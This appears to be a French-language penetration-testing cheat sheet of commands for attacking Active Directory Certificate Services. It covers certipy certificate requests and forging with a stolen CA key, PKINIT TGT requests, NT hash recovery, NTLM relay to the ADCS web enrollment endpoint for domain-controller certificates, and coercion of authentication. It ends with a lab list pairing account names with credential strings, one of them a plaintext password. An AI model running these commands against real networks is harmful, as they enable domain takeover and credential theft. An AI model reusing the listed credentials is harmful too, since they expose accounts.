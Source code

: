 ```
certipy req  -ca 'caName' -u 'user' -p 'password' -target-ip adcs.klemou.corp
```

### Demande de TGT avec un certificat

```
gettgtpkinit.py -cert-pfx cert.pfx -dc-ip dc.domain.local domain.local/user tgt.ccache
```

### Récupération du hash via un tgt 

```
getnthash.py -k key  -dc-ip dc.domain.local domain.local/user
```

### Relai sur le web enrollement de l'ADCS

```
ntlmrelayx.py -t "http://adcs.domain.local/certsrv/certfnsh.asp" -smb2support --adcs
ntlmrelayx.py -t "http://srv.klemou.corp/certsrv/certfnsh.asp" -smb2support --adcs --template DomainController # pour les DC
```
### Coerce de gros porc

```
coercer  coerce -l ipAttaquant -d domain.local -u user -p pass -t dc.domain.local
```

### Golden Ca

```
Export ca in ADDS panel 
openssl pkcs12 -in EXAMPLE-CA.p12 -out ca.pem
openssl pkcs12 -in ca.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx
```

```
certipy forge -ca-pfx ca.pfx -upn "user@domain" -subject 'CN=user,OU=Users,DC=DOMAIN,DC=TLD' -crl http://adcs.domain.tld/CertEnroll/
```

# Lab

## **AD**
```
Administrator : fe63693e9e.2e90861a9c
antoine       : 099bd3d1c39.c22d1a464
crz           : 992e71f059.585a7ffa20
glpi_cnx      : a9285936fb.3dfdf6a889
ws_klemou     : Qwertyuiop123!
sql_svc       : 515aa2db9.749107818e6
hugo          : e0eec4062.cbc38dd8f38
sql_mngt      : 5486a9646.1b307dcf720
ndes          : f77c171f50.001b01ade5
adcs_adm      : b2a1349450.64025f1b0e

Local Adm     : 4eaf07215.645eb0e68f6
```
